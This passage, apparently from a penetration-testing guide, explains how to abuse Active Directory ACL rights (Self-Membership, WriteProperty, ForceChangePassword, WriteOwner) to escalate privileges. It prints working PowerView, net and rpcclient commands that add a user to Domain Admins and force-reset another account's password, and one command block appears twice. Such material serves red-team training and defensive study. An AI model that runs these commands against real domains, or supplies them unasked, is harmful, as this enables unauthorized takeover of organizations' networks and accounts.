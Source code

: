 ```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## **Self (Self-Membership) on Group**

This privilege enables attackers to add themselves to specific groups, such as `Domain Admins`, through commands that manipulate group membership directly. Using the following command sequence allows for self-addition:

```powershell
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## **WriteProperty (Self-Membership)**

A similar privilege, this allows attackers to directly add themselves to groups by modifying group properties if they have the `WriteProperty` right on those groups. The confirmation and execution of this privilege are performed with:

```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
net group "domain admins" spotless /add /domain
```

## **ForceChangePassword**

Holding the `ExtendedRight` on a user for `User-Force-Change-Password` allows password resets without knowing the current password. Verification of this right and its exploitation can be done through PowerShell or alternative command-line tools, offering several methods to reset a user's password, including interactive sessions and one-liners for non-interactive environments. The commands range from simple PowerShell invocations to using `rpcclient` on Linux, demonstrating the versatility of attack vectors.

```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

```bash
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```

## **WriteOwner on Group**

If an attacker finds that they have `WriteOwner` rights over a group, they can change the ownership of the group to themselves. This is particularly impactful when the group in question is `Domain Admins`, as changing ownership allows for broader control over group attributes and membership. The process involves identifying the correct object via `Get-ObjectAcl` and then using `Set-DomainObjectOwner` to modify the owner, either by SID or name.
